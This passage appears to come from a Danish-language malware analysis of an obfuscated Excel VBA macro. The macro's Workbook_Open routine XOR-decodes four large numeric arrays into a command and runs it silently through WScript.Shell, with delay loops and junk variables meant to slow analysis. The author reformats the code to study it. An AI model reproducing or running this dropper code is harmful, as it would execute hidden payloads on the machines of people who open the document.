199, 180, 137, 225, 183, 205, 163, 173, 220, 181, 129, 233, 181, 156, 184, 163, 210, 154, 151, 214, 140, 147, 215, 165, 132, 216, 165, 217, 156, 162, 220, 151, 186, 192, 155, 195, 148, 185, 196, 152, 163, 207, 142, 157, 203, 139, 146, 238, 208, 176, 134, 234, 178, 237, 234, 163, 229, 186, 212, 225, 183, 249, 227, 154, 201, 247, 211, 245, 253, 167, 240, 179, 237, 243, 220, 247, 244, 187, 243, 141, 224, 200, 165, 219, 205, 148, 201, 209, 175, 207, 181, 153, 195, 135, 219, 229, 146, 222, 218, 129, _
221, 179, 208, 210, 172, 193, 238, 142, 218, 195, 143, 207, 10, 112, 8, 113, 56, 14, 116, 11, 36, 120, 42, 123, 40, 21, 124, 35, 45, 100, 10, 53, 97, 43, 58, 125, 24, 104, 41, 50, 103, 61, 50, 122, 13, 82, 51, 9, 82, 63, 11, 119, 23, 12, 64, 13, 6, 91, 8, 72, 21, 27, 116, 31, 17, 101, 27, 83, 14, 16, 90, 3, 19, 49, 17, 14, 49, 100, 30, 49, 100, 35, 115, 120, 58, 102, 105, 57, 102, 45, 104, 118, 34, 105, 68, 38, 125, 85, 39, 85, _
82, 40, 76, 41, 111, 5, 44, 103, 92, 16, 76, 19, 71, 71, 20, 77, 115, 28, 52, 77, 26, 75, 66, 6, 70, 0, 81, 90, 15, 77, 90, 10, 99, 9, 101, 81, 12, 60, 83, 42, 137, 164, 192, 165, 161, 243, 160, 248, 139, 163, 141, 167, 164, 201, 163, 223, 182, 184, 234, 171, 191, 210, 185, 164, 249, 188, 128, 233, 188, 227, 171, 149, 228, 141, 253, 209, 142, 197, 128, 174, 218, 146, 132, 222, 132, 143, 223, 169, 170, 192, 165, 193, 136, 136, 196, 128, 162, 200, 149, 203, _
159, 131, 204, 139, 237, 180, 213, 229, 183, 209, 234, 165, 200, 184, 200, 226, 188, 152, 226, 158, 203, 161, 195, 249, 161, 253, 251, 129, 193, 252, 163, 253, 246, 157, 248, 142, 213, 203, 135, 207, 207, 189, 203, 135, 248, 192, 181, 211, 199, 190, 193, 210, 183, 215, 175, 129, 215, 161, 195, 212, 188, 214, 218, 137, 214, 171, 216, 199, 114, 58, 58, 118, 46, 43, 119, 58, 36, 120, 6, 121, 48, 32, 124, 0, 60, 96, 4, 99, 52, 70, 100, 60, 19, 111, 65, 61, 104, 29, 50, 99, _
22, 80, 37, 10, 81, 5, 10, 119, 51, 89, 121, 1, 88, 108, 3, 72, 15, 20, 113, 21, 31, 109, 16, 103, 43, 19, 64, 23, 20, 75, 19, 107, 64, 104, 58, 123, 109, 36, 105, 119, 57, 108, 115, 57, 108, 78, 123, 105, 34, 126, 108, 33, 127, 7, 112, 93, 58, 98, 120, 46, 117, 81, 47, 91, 92, 16, 83, 17, 88, 88, 20, 80, 84, 24, 75, 27, 76, 97, 28, 66, 77, 7, 76, 85, 1, 101, 90, 9, 104, 11, 62, 82, 12, 40, 82, 40, 155, 241, 147, 169, _
244, 159, 171, 248, 183, 175, 201, 173, 162, 255, 168, 235, 147, 187, 209, 191, 190, 158, 187, 234, 152, 176, 195, 163, 181, 145, 177, 154, 193, 132, 158, 209, 139, 223, 147, 149, 202, 134, 189, 217, 136, 209, 136, 165, 210, 138, 142, 198, 157, 230, 199, 156, 178, 200, 183, 201, 141, 237, 204, 176, 252, 176, 255, 179, 235, 231, 180, 236, 245, 191, 240, 237, 180, 231, 226, 157, 230, 160, 208, 250, 162, 140, 250, 134, 229, 170, 203, 241, 168, 245, 243, 185, 223, 196, 182, 197, 205, 185, 192, 155, _
251, 195, 156, 199, 198, 139, 195, 143, 224, 216, 183, 203, 223, 241, 217, 197, 137, 220, 238, 137, 220, 155, 203, 194, 68, 46, 21, 113, 43, 117, 32, 39, 106, 49, 22, 126, 33, 43, 127, 36, 60, 96, 23, 97, 38, 44, 100, 40, 36, 104, 66, 107, 61, 39, 108, 42, 43, 87, 10, 5, 83, 118, 10, 77, 56, 88, 40, 2, 90, 17, 2, 125, 13, 66, 26, 25, 66, 47, 27, 91, 7, 31, 60, 29, 21, 97, 24, 93, 101, 107, 11, 111, 110, 59, 107, 37, 126, 96, 51, 115, _
99, 18, 97, 97, 33, 119, 79, 33, 112, 82, 99, 106, 12, 118, 91, 41, 119, 41, 120, 110, 18, 90, 91, 22, 79, 58, 23, 90, 84, 24, 66, 25, 95, 84, 28, 73, 92, 3, 110, 3, 82, 35, 120)
Dim rvbBsaocxY
rvbBsaocxY = eomTXCGRBY(rVNKPsoBFf)
Dim owrEdYzuPv
owrEdYzuPv = "wA87rTUqwSvghh1="
Dim gUQflbAGiD
gUQflbAGiD = LmFoIUDMcS & KsyHAFlamj & OsgwuQFZez & rvbBsaocxY
Dim qzErxDIifZ
Set qzErxDIifZ = CreateObject("WScript.Shell")
qzErxDIifZ.Run gUQflbAGiD, 0, True
End Sub
```

Hold da op, det var et noget større modul og tydeligvis obfuskeret - funktioner og variabelnavne virker tilfældige, indentation er fjernet osv.
Det meste er dog fire lange arrays med en masse tal. Lad os starte med at fixe indentation og indsætte lidt whitespace for overskuelighedens skyld:

```vba
Function eomTXCGRBY(UCujrNVIMF As Variant)
    Dim yoKdYtvnNV As String

    Dim qpNzDVxiKR
    For qpNzDVxiKR = 0 To UBound(UCujrNVIMF)
        yoKdYtvnNV = yoKdYtvnNV + Chr((UCujrNVIMF(qpNzDVxiKR) Xor Asc(Mid(uVbUlFfmHv, (qpNzDVxiKR Mod Len(uVbUlFfmHv)) + 1, 1)) Xor qpNzDVxiKR) Mod 256)
    Next qpNzDVxiKR

    Dim kUigaKNsep
    kUigaKNsep = "AAiA3b4pSQo984="

    eomTXCGRBY = yoKdYtvnNV
End Function

Private Sub Workbook_Open()
    Call vyFDKiXajP.VkruolavHp

    Dim xVGvdsnRaF
    xVGvdsnRaF = "bpiSQIQdsjkpQ"

    Dim EiZKrPgbsl
    For EiZKrPgbsl = 0 To 32
        If EiZKrPgbsl < 20 Then DoEvents
    Next EiZKrPgbsl

    Dim ZPBfoAGSbl
    ZPBfoAGSbl = Array(28, 90, 27, 1, 70, 17, 3, 81, 3, 86, 80, 6, 71, 5, 67, 17, 57, 88, 16, 27, 82, 24, 19, 76, 24, 46, 69, 16, 24, 77, 0, 12, 22, 48, 97, 47, 58, 101, 106, 59, 1, 45, 85, 61, 39, 118, 96, 101, 78, 57, 49, 73, 61, 114, 39, 45, 106, 55, 35, 97, 38, 105, 121, 121, 61, 87, 126, 5, 69, 68, 31, 76, 64, 90, 0, 47, 81, 75, 25, 77, 74, 49, 74, 27, 95, 91, 69, 102, 93, 9, 80, 89, 2, 26, 30, 9, 39, 30, 113, 74, _
    56, 73, 72, 21, 69, 18, 76, 66, 40, 85, 74, 22, 95, 119, 3, 86, 111, 7, 86, 116, 77, 67, 24, 84, 115, 15, 86, 31, 166, 178, 224, 187, 154, 240, 171, 177, 249, 141, 166, 250, 145, 255, 189, 128, 226, 158, 136, 226, 182, 229, 182, 169, 234, 183, 129, 238, 136, 187, 234, 169, 140, 202, 148, 209, 162, 140, 214, 169, 132, 205, 135, 219, 165, 135, 222, 189, 157, 204, 157, 149, 235, 147, 152, 197, 158, 222, 169, 145, 227, 145, 149, 239, 237, 188, 244, 234, 129, 253, 237, 186, _
    231, 253, 157, 238, 205, 191, 236, 177, 229, 221, 160, 255, 222, 167, 249, 167, 254, 211, 184, 224, 224, 168, 243, 140, 145, 229, 248, 146, 214, 151, 212, 198, 154, 222, 214, 154, 232, 157, 204, 180, 130, 221, 249, 133, 246, 211, 129, 213, 212, 144, 220, 138, 206, 212, 139, 219, 44, 121, 47, 115, 12, 47, 118, 63, 37, 105, 3, 46, 80, 43, 37, 95, 54, 110, 55, 57, 81, 57, 60, 109, 53, 123, 26, 50, 67, 37, 55, 102, 15, 34, 83, 5, 46, 87, 2, 85, 29, 32, 72, 4, _
    55, 95, 1, 42, 22, 3, 118, 8, 46, 64, 31, 96, 73, 11, 22, 74, 8, 79, 15, 2, 50, 79, 88, 50, 82, 53, 102, 71, 58, 100, 81, 61, 87, 107, 61, 28, 124, 56, 116, 34, 76, 124, 34, 99, 116, 62, 119, 40, 83, 119, 43, 119, 77, 15, 93, 70, 46, 67, 77, 5, 78, 57, 121, 65, 51, 65, 70, 25, 93, 34, 68, 89, 40, 77, 92, 48, 87, 125, 61, 94, 75, 15, 95, 1, 181, 191, 240, 172, 175, 247, 173, 134, 174, 174, 222, 176, 144, 248, 165, 208, _
    225, 186, 152, 226, 189, 231, 167, 170, 234, 150, 166, 234, 134, 237, 191, 189, 210, 143, 159, 213, 158, 131, 208, 145, 132, 249, 170, 218, 158, 132, 216, 135, 156, 214, 143, 192, 183, 159, 198, 143, 149, 218, 163, 158, 246, 155, 155, 231, 230, 145, 193, 233, 162, 233, 238, 161, 229, 172, 252, 225, 138, 245, 231, 182, 255, 212, 149, 246, 246, 167, 249, 189, 237, 227, 184, 244, 226, 175, 250, 191, 198, 210, 128, 219, 190, 144, 204, 239, 153, 220, 224, 154, 216, 159, 221, 191, 130, 200, 206, 130, _
    241, 133, 214, 217, 138, 227, 225, 141, 254, 219, 138, 193, 44, 124, 36, 114, 36, 44, 115, 59, 36, 89, 1, 120, 27, 39, 122, 66, 61, 119, 11, 53, 75, 51, 56, 101, 62, 96, 25, 49, 68, 49, 53, 117, 13, 71, 4, 9, 36, 29, 13, 90, 7, 5, 109, 14, 11, 95, 13, 77, 5, 11, 80, 28, 8, 71, 30, 95, 30, 29, 88, 0, 6, 72, 24, 1, 49, 105, 110, 50, 106, 55, 119, 92, 58, 111, 80, 58, 89, 61, 111, 125, 34, 125, 89, 37, 127, 115, 33, 83, _
    116, 8, 74, 42, 125, 116, 37, 85, 76, 1, 105, 19, 49, 79, 16, 38, 69, 57, 85, 78, 46, 75, 68, 100, 86, 12, 87, 89, 0, 89, 92, 47, 85, 5, 92, 82, 8, 69, 87, 6, 175, 133, 243, 166, 133, 247, 167, 237, 189, 183, 222, 164, 182, 255, 164, 231, 182, 163, 214, 168, 150, 224, 191, 159, 233, 164, 166, 234, 146, 239, 173, 190, 210, 155, 158, 210, 191, 213, 135, 167, 218, 134, 151, 221, 141, 139, 217, 240, 156, 227, 132, 193, 243, 156, 194, 181, 148, 197, 151, 203, _
    232, 151, 197, 169, 237, 175, 203, 230, 133, 227, 239, 147, 238, 171, 239, 225, 143, 225, 228, 196, 253, 182, 210, 249, 215, 237, 253, 215, 247, 231, 187, 254, 196, 175, 254, 139, 213, 235, 182, 204, 216, 151, 206, 135, 206, 204, 136, 208, 176, 152, 200, 209, 129, 197, 222, 130, 218, 135, 199, 240, 138, 206, 214, 138, 198, 141, 222, 221, 114, 47, 9, 117, 30, 35, 126, 57, 36, 91, 10, 122, 33, 36, 117, 9, 60, 65, 25, 96, 18, 63, 97, 63, 53, 78, 19, 61, 85, 59, 52, 79, _
    6, 93, 23, 9, 127, 9, 14, 93, 5, 65, 42, 2, 80, 21, 4, 112, 31, 0, 83, 22, 31, 71, 23, 111, 13, 52, 110, 20, 56, 79, 20, 71, 102, 73, 32, 120, 90, 48, 96, 109, 57, 125, 118, 57, 27, 63, 127, 114, 34, 106, 88, 34, 98, 37, 118, 8, 42, 118, 65, 45, 119, 123, 42, 83, 76, 28, 68, 18, 86, 76, 16, 79, 68, 3, 113, 24, 58, 71, 25, 125, 93, 23, 107, 86, 44, 83, 94, 29, 94, 7, 121, 81, 57, 81, 86, 47, 173, 212, 164, 169, _
    130, 189, 173, 220, 167, 188, 221, 174, 163, 255, 173, 233, 165, 171, 224, 188, 149, 231, 191, 205, 190, 191, 248, 160, 152, 232, 181, 151, 209, 138, 184, 210, 139, 215, 149, 255, 218, 138, 160, 218, 151, 221, 141, 149, 194, 153, 185, 197, 170, 147, 195, 224, 148, 233, 186, 202, 133, 148, 201, 159, 236, 145, 217, 176, 209, 239, 189, 239, 229, 169, 195, 237, 142, 235, 228, 155, 246, 176, 231, 249, 169, 249, 253, 161, 245, 166, 218, 242, 218, 229, 250, 174, 207, 208, 147, 198, 203, 151, 198, 179, _
    221, 207, 174, 196, 176, 159, 199, 169, 214, 206, 144, 200, 211, 128, 223, 231, 137, 205, 214, 138, 204, 143, 207, 244, 114, 58, 8, 114, 29, 117, 37, 61, 122, 38, 17, 125, 83, 43, 121, 11, 60, 65, 36, 98, 20, 60, 99, 29, 52, 75, 39, 104, 17, 55, 101, 5, 13, 112, 29, 6, 109, 3, 12, 77, 14, 87, 15, 1, 114, 1, 4, 36, 29, 81, 34, 26, 50, 13, 28, 86, 23, 15, 109, 29, 98, 79, 31, 111, 117, 112, 32, 108, 111, 55, 110, 17, 110, 67, 56, 112, _
    119, 56, 102, 113, 33, 96, 88, 34, 94, 39, 100, 102, 42, 97, 118, 42, 98, 45, 113, 113, 18, 86, 121, 21, 91, 67, 16, 107, 68, 59, 76, 26, 81, 68, 25, 67, 92, 21, 95, 0, 69, 95)

    Dim LmFoIUDMcS
    LmFoIUDMcS = eomTXCGRBY(ZPBfoAGSbl)

    Dim ToyaZSpFDe
    ToyaZSpFDe = "lkljkh9y893AAAW=="

    Dim TkryVYPUnz
    TkryVYPUnz = Array(40, 100, 45, 40, 67, 32, 5, 117, 40, 89, 63, 46, 126, 34, 15, 125, 58, 105, 52, 28, 118, 46, 44, 98, 48, 51, 107, 51, 32, 108, 54, 109, 16, 8, 80, 26, 46, 87, 120, 87, 9, 11, 88, 3, 17, 91, 118, 9, 68, 49, 30, 90, 18, 68, 115, 30, 77, 5, 22, 108, 17, 78, 27, 21, 52, 105, 111, 20, 77, 96, 68, 97, 97, 47, 108, 47, 121, 103, 51, 99, 117, 9, 127, 41, 68, 124, 60, 111, 113, 93, 117, 104, 11, 120, 68, 45, 64, 37, 87, 69, _
    22, 74, 103, 21, 67, 108, 76, 78, 40, 85, 112, 26, 86, 67, 3, 89, 126, 4, 90, 5, 72, 68, 8, 115, 118, 12, 91, 15, 162, 137, 240, 173, 185, 243, 128, 161, 240, 129, 166, 234, 170, 252, 191, 166, 229, 151, 190, 243, 143, 229, 194, 189, 238, 135, 183, 251, 179, 184, 229, 185, 137, 219, 132, 222, 129, 143, 208, 139, 141, 211, 135, 206, 154, 132, 246, 151, 154, 234, 157, 183, 243, 144, 144, 197, 153, 195, 143, 132, 232, 145, 165, 205, 234, 165, 228, 230, 144, 254, 192, 178, _
    229, 221, 187, 207, 198, 188, 231, 189, 236, 240, 160, 234, 206, 167, 142, 167, 250, 130, 168, 248, 241, 171, 248, 249, 151, 207, 206, 134, 210, 148, 202, 206, 156, 213, 198, 149, 209, 158, 248, 197, 134, 255, 223, 166, 253, 208, 136, 209, 209, 161, 220, 156, 239, 215, 156, 211, 40, 93, 47, 104, 20, 44, 111, 63, 32, 94, 37, 56, 109, 40, 43, 125, 51, 107, 39, 41, 102, 58, 51, 101, 60, 113, 60, 34, 110, 38, 1, 106, 6, 3, 83, 32, 62, 84, 41, 85, 27, 54, 88, 39, _
    0, 92, 52, 95, 17, 49, 64, 7, 47, 67, 34, 17, 79, 61, 22, 93, 10, 76, 51, 22, 52, 24, 110, 36, 95, 54, 72, 109, 62, 4, 103, 30, 115, 104, 61, 105, 120, 13, 116, 44, 87, 127, 38, 123, 125, 59, 119, 39, 92, 119, 31, 103, 73, 24, 77, 101, 51, 64, 101, 21, 73, 19, 95, 90, 14, 66, 91, 29, 89, 43, 84, 78, 22, 77, 109, 2, 81, 79, 11, 125, 118, 12, 81, 13, 178, 138, 240, 160, 168, 244, 147, 247, 170, 214, 248, 188, 151, 251, 162, 169, _
    230, 179, 190, 241, 132, 228, 160, 190, 239, 181, 182, 242, 177, 238, 187, 181, 208, 224, 143, 194, 139, 128, 219, 129, 130, 245, 140, 204, 137, 135, 231, 131, 152, 241, 159, 213, 146, 156, 232, 143, 146, 200, 149, 191, 205, 152, 167, 205, 226, 167, 247, 207, 128, 234, 237, 181, 236, 151, 236, 197, 174, 246, 195, 186, 249, 227, 163, 224, 222, 164, 249, 165, 233, 228, 168, 211, 240, 172, 245, 175, 207, 237, 144, 248, 217, 147, 252, 193, 159, 219, 198, 137, 218, 156, 208, 198, 128, 164, 222, 148, _
    217, 134, 228, 221, 141, 205, 215, 156, 211, 219, 183, 217, 42, 81, 36, 105, 7, 44, 0, 43, 32, 89, 39, 95, 42, 36, 126, 55, 57, 78, 61, 32, 117, 48, 52, 101, 57, 115, 47, 62, 126, 50, 25, 109, 4, 69, 4, 28, 86, 29, 120, 82, 14, 45, 91, 31, 16, 92, 2, 93, 2, 20, 64, 19, 62, 68, 17, 71, 24, 102, 72, 23, 39, 75, 97, 25, 55, 65, 110, 35, 98, 52, 120, 110, 60, 71, 102, 44, 113, 62, 127, 101, 37, 71, 127, 51, 93, 112, 55, 113, _
    113, 39, 124, 59, 79, 119, 34, 115, 72, 31, 79, 48, 82, 76, 12, 95, 76, 50, 69, 90, 43, 72, 110, 29, 84, 49, 71, 122, 6, 90, 41, 5, 82, 13, 92, 74, 40, 70, 70, 10, 170, 141, 243, 133, 168, 244, 182, 245, 186, 172, 248, 180, 150, 255, 154, 255, 178, 183, 224, 142, 159, 224, 130, 177, 238, 145, 182, 249, 156, 236, 188, 182, 212, 187, 142, 194, 175, 214, 181, 141, 221, 129, 135, 198, 147, 136, 201, 137, 149, 199, 148, 227, 129, 159, 206, 155, 144, 233, 151, 197, _
    154, 148, 193, 135, 232, 146, 237, 234, 165, 224, 253, 181, 235, 163, 255, 192, 190, 226, 228, 189, 251, 181, 244, 244, 144, 238, 214, 162, 254, 239, 171, 223, 240, 172, 138, 173, 208, 238, 144, 237, 238, 148, 187, 151, 201, 195, 152, 243, 247, 155, 200, 201, 136, 207, 222, 142, 194, 135, 179, 222, 136, 172, 214, 133, 209, 141, 169, 213, 118, 19, 47, 122, 13, 32, 112, 33, 45, 115, 44, 110, 15, 39, 73, 35, 53, 123, 63, 112, 50, 60, 78, 47, 48, 120, 53, 37, 75, 59, 1, 109, _
    3, 83, 23, 40, 112, 10, 4, 85, 12, 119, 12, 26, 120, 22, 14, 90, 25, 3, 67, 55, 46, 68, 103, 69, 15, 105, 72, 25, 16, 76, 51, 79, 97, 99, 48, 99, 121, 51, 110, 97, 63, 99, 102, 27, 76, 60, 80, 102, 39, 87, 126, 44, 79, 38, 101, 125, 45, 117, 119, 62, 99, 120, 15, 121, 74, 37, 68, 1, 65, 79, 18, 75, 65, 57, 71, 0, 108, 68, 31, 87, 89, 20, 93, 64, 35, 80, 98, 5, 90, 3, 79, 92, 30, 82, 103, 13, 170, 219, 164, 190, _
    230, 190, 179, 242, 163, 137, 251, 185, 134, 255, 216, 253, 163, 160, 224, 155, 158, 228, 141, 231, 187, 163, 232, 176, 151, 235, 166, 185, 216, 135, 142, 194, 164, 215, 224, 142, 220, 141, 134, 194, 145, 222, 179, 133, 203, 129, 159, 222, 139, 144, 202, 145, 147, 199, 156, 219, 191, 151, 252, 147, 234, 194, 239, 191, 196, 236, 195, 255, 224, 188, 229, 253, 139, 232, 144, 189, 242, 129, 231, 223, 144, 250, 255, 165, 243, 165, 252, 209, 136, 230, 193, 170, 203, 195, 147, 222, 200, 148, 212, 149, _
    219, 246, 152, 200, 208, 156, 182, 159, 208, 215, 128, 233, 217, 131, 246, 209, 141, 207, 214, 156, 202, 140, 192, 214, 117, 45, 46, 97, 57, 118, 51, 45, 126, 3, 39, 94, 35, 40, 68, 41, 53, 103, 52, 117, 49, 63, 107, 59, 51, 123, 55, 78, 12, 55, 28, 39, 10, 68, 13, 30, 99, 0, 27, 85, 11, 67, 31, 26, 120, 2, 5, 93, 26, 81, 20, 61, 86, 13, 106, 66, 18, 23, 75, 10, 38, 76, 54, 77, 124, 108, 48, 124, 94, 52, 115, 55, 104, 73, 56, 87, _
    71, 59, 103, 105, 38, 81, 126, 55, 114, 36, 118, 126, 44, 83, 118, 12, 97, 45, 9, 117, 20, 65, 79, 3, 75, 64, 39, 65, 66, 49, 76, 14, 111, 68, 39, 67, 90, 45, 95, 32, 100, 92)

    Dim KsyHAFlamj
    KsyHAFlamj = eomTXCGRBY(TkryVYPUnz)

    Dim lMwAmaHYSx
    For lMwAmaHYSx = 0 To 64
        If lMwAmaHYSx < 30 Then DoEvents
    Next lMwAmaHYSx

    Dim GxkOhEtQfy
    GxkOhEtQfy = Array(58, 116, 42, 11, 117, 3, 28, 118, 33, 123, 54, 34, 126, 46, 50, 126, 55, 97, 51, 19, 102, 58, 59, 97, 38, 63, 108, 23, 48, 76, 40, 110, 7, 8, 86, 3, 8, 115, 11, 84, 123, 3, 93, 57, 1, 122, 39, 9, 51, 23, 23, 99, 18, 81, 3, 29, 89, 21, 17, 89, 17, 85, 46, 22, 49, 121, 107, 71, 107, 119, 39, 98, 109, 59, 101, 53, 121, 116, 26, 96, 100, 35, 123, 43, 114, 117, 18, 108, 77, 44, 113, 8, 45, 94, 68, 46, 81, 19, 81, 108, _
    22, 81, 108, 22, 105, 25, 75, 107, 30, 69, 83, 25, 72, 87, 10, 81, 88, 18, 80, 5, 126, 80, 12, 97, 80, 43, 83, 15, 213, 171, 244, 175, 169, 227, 143, 162, 215, 175, 160, 223, 170, 243, 187, 165, 232, 189, 186, 144, 185, 235, 160, 190, 153, 161, 179, 155, 179, 159, 239, 186, 129, 211, 128, 213, 145, 156, 242, 136, 164, 219, 130, 253, 138, 164, 204, 148, 154, 196, 155, 236, 197, 131, 188, 198, 181, 203, 134, 176, 206, 138, 180, 206, 197, 177, 230, 219, 182, 233, 221, 177, _
    233, 239, 191, 199, 224, 159, 248, 190, 150, 248, 164, 209, 248, 176, 235, 164, 210, 243, 173, 197, 241, 191, 225, 250, 189, 199, 203, 183, 194, 155, 211, 205, 171, 197, 192, 179, 193, 141, 216, 198, 155, 201, 218, 134, 219, 196, 161, 209, 239, 139, 216, 129, 201, 192, 156, 211, 94, 115, 43, 93, 34, 32, 82, 60, 61, 124, 35, 3, 125, 63, 50, 126, 15, 99, 35, 79, 102, 45, 28, 102, 35, 105, 56, 23, 110, 51, 35, 105, 39, 7, 90, 9, 8, 79, 16, 86, 51, 0, 81, 31, _
    0, 124, 3, 92, 4, 27, 68, 33, 25, 98, 47, 18, 62, 31, 19, 65, 26, 93, 27, 21, 29, 109, 108, 3, 105, 38, 96, 109, 1, 113, 97, 12, 99, 79, 47, 106, 122, 35, 125, 15, 97, 108, 52, 120, 4, 43, 113, 39, 122, 96, 10, 103, 61, 20, 74, 85, 21, 85, 90, 22, 120, 27, 93, 59, 30, 77, 116, 30, 76, 1, 81, 115, 6, 110, 75, 1, 91, 95, 12, 73, 80, 42, 88, 14, 155, 168, 247, 187, 168, 213, 187, 244, 218, 163, 241, 187, 161, 238, 135, 170, _
    249, 183, 184, 215, 178, 232, 163, 189, 249, 181, 180, 219, 177, 254, 168, 182, 194, 153, 139, 224, 139, 144, 241, 130, 183, 219, 142, 160, 153, 156, 204, 128, 147, 195, 155, 219, 146, 132, 196, 143, 224, 204, 145, 191, 205, 142, 164, 206, 204, 179, 240, 234, 182, 254, 204, 181, 145, 185, 229, 241, 190, 208, 243, 186, 200, 247, 165, 199, 248, 131, 214, 165, 222, 240, 172, 243, 240, 141, 213, 172, 245, 203, 151, 219, 201, 130, 201, 194, 182, 207, 193, 183, 202, 186, 219, 198, 240, 221, 215, 141, _
    217, 139, 208, 222, 190, 193, 208, 134, 211, 212, 185, 218, 31, 115, 33, 121, 49, 38, 66, 43, 85, 123, 32, 115, 42, 63, 74, 52, 5, 100, 56, 23, 101, 43, 42, 102, 77, 107, 40, 20, 110, 34, 50, 110, 121, 81, 2, 35, 86, 14, 11, 81, 8, 15, 95, 59, 0, 81, 24, 94, 6, 24, 70, 19, 24, 92, 61, 68, 109, 19, 78, 23, 17, 90, 1, 26, 34, 103, 104, 19, 98, 59, 69, 109, 60, 101, 100, 64, 97, 51, 104, 102, 85, 105, 123, 16, 123, 124, 39, 114, _
    66, 43, 117, 7, 105, 123, 60, 112, 103, 19, 72, 53, 66, 84, 4, 92, 82, 28, 65, 107, 29, 83, 82, 29, 35, 3, 78, 82, 6, 77, 74, 6, 81, 9, 91, 115, 14, 94, 117, 9, 133, 167, 247, 212, 168, 211, 160, 246, 171, 160, 241, 175, 160, 234, 149, 252, 188, 187, 229, 129, 185, 236, 143, 178, 248, 191, 177, 249, 186, 225, 171, 181, 228, 141, 138, 247, 137, 218, 144, 142, 203, 145, 131, 240, 131, 174, 249, 138, 232, 195, 147, 227, 129, 188, 212, 152, 155, 203, 147, 253, _
    154, 131, 234, 132, 221, 180, 233, 233, 181, 236, 220, 181, 157, 187, 250, 242, 190, 249, 196, 190, 233, 161, 242, 140, 166, 253, 221, 161, 221, 255, 175, 136, 240, 186, 206, 174, 221, 200, 150, 215, 200, 154, 253, 148, 222, 195, 156, 241, 193, 141, 209, 202, 246, 215, 215, 175, 210, 162, 229, 221, 147, 213, 211, 171, 209, 155, 200, 214, 91, 57, 41, 88, 43, 48, 65, 33, 18, 123, 37, 97, 57, 55, 108, 32, 51, 99, 54, 73, 50, 51, 116, 47, 64, 108, 51, 31, 109, 44, 34, 109, _
    62, 83, 18, 40, 86, 42, 26, 85, 116, 89, 10, 112, 94, 25, 53, 89, 40, 23, 69, 96, 24, 82, 0, 70, 5, 16, 76, 37, 16, 64, 19, 76, 72, 107, 55, 99, 105, 43, 105, 98, 62, 111, 96, 53, 106, 53, 77, 101, 51, 125, 123, 37, 121, 49, 112, 125, 28, 97, 115, 12, 115, 96, 47, 122, 59, 19, 65, 25, 81, 92, 50, 72, 74, 27, 67, 23, 74, 95, 42, 87, 107, 4, 90, 127, 5, 94, 108, 6, 72, 11, 75, 116, 14, 70, 116, 14, 154, 241, 162, 135, _
    246, 177, 141, 241, 180, 175, 255, 220, 160, 228, 184, 254, 177, 184, 233, 149, 184, 240, 187, 228, 158, 179, 236, 141, 177, 228, 177, 186, 199, 135, 135, 255, 130, 244, 147, 141, 201, 133, 131, 201, 129, 203, 136, 134, 238, 137, 155, 183, 155, 183, 199, 146, 140, 203, 153, 193, 137, 131, 204, 144, 238, 179, 233, 183, 226, 244, 180, 252, 239, 188, 226, 233, 189, 249, 212, 190, 217, 163, 227, 204, 166, 225, 204, 166, 254, 169, 254, 195, 174, 243, 227, 169, 202, 199, 150, 201, 200, 135, 230, 150, _
    196, 192, 154, 245, 192, 186, 229, 156, 248, 219, 133, 233, 217, 140, 255, 209, 252, 223, 210, 252, 218, 157, 253, 213, 1, 45, 40, 0, 41, 86, 22, 46, 97, 49, 46, 118, 35, 37, 111, 42, 10, 99, 48, 71, 33, 51, 100, 59, 64, 107, 62, 107, 58, 23, 124, 36, 38, 84, 9, 29, 85, 38, 10, 85, 122, 91, 25, 18, 94, 23, 18, 94, 17, 65, 16, 21, 70, 27, 61, 66, 32, 31, 79, 59, 16, 107, 62, 78, 2, 104, 52, 77, 104, 44, 93, 55, 29, 99, 60, 123, _
    97, 47, 113, 105, 81, 119, 122, 19, 114, 40, 115, 125, 45, 117, 127, 45, 113, 33, 120, 118, 102, 89, 70, 6, 75, 102, 33, 65, 55, 27, 69, 9, 89, 97, 42, 64, 113, 3, 91, 15, 82, 77)

    Dim OsgwuQFZez
    OsgwuQFZez = eomTXCGRBY(GxkOhEtQfy)

    Dim fwqASXcpCZ
    fwqASXcpCZ = "Af679ads8a78Kg="

    Dim rVNKPsoBFf
    rVNKPsoBFf = Array(61, 119, 39, 37, 115, 59, 42, 97, 8, 120, 60, 34, 119, 15, 34, 102, 27, 98, 60, 57, 97, 41, 59, 70, 55, 60, 93, 61, 55, 111, 56, 77, 5, 8, 36, 15, 12, 79, 11, 119, 14, 0, 83, 19, 4, 126, 1, 7, 81, 20, 50, 65, 20, 109, 3, 5, 124, 22, 3, 73, 20, 89, 24, 55, 4, 122, 31, 54, 98, 65, 55, 68, 66, 56, 93, 57, 127, 112, 60, 108, 124, 32, 121, 35, 117, 123, 36, 125, 67, 47, 113, 125, 43, 99, 114, 53, 86, 16, 36, 74, _
    18, 107, 74, 6, 115, 26, 97, 65, 25, 89, 67, 14, 121, 84, 114, 85, 92, 23, 80, 23, 107, 80, 124, 87, 86, 45, 83, 25, 182, 168, 229, 187, 172, 224, 169, 175, 233, 175, 159, 249, 163, 221, 187, 130, 196, 190, 165, 225, 191, 233, 176, 179, 234, 162, 155, 238, 181, 153, 239, 171, 140, 211, 245, 209, 152, 170, 212, 156, 132, 216, 132, 219, 140, 242, 220, 154, 171, 196, 237, 149, 193, 185, 154, 225, 142, 200, 182, 146, 199, 183, 146, 222, 253, 177, 151, 233, 179, 215, 235, 162, _
    193, 236, 177, 237, 231, 179, 232, 170, 195, 251, 151, 255, 255, 141, 251, 188, 254, 240, 185, 227, 248, 130, 241, 221, 145, 196, 255, 145, 198, 131, 211, 214, 172, 198, 255, 153, 195, 175, 200, 202, 130, 202, 233, 134, 223, 162, 135, 219, 226, 136, 233, 137, 205, 246, 140, 192, 26, 112, 44, 115, 37, 9, 116, 48, 53, 127, 41, 45, 120, 39, 34, 110, 0, 96, 40, 58, 98, 41, 58, 104, 3, 106, 36, 49, 106, 33, 51, 114, 31, 4, 95, 5, 10, 101, 0, 67, 29, 0, 96, 7, _
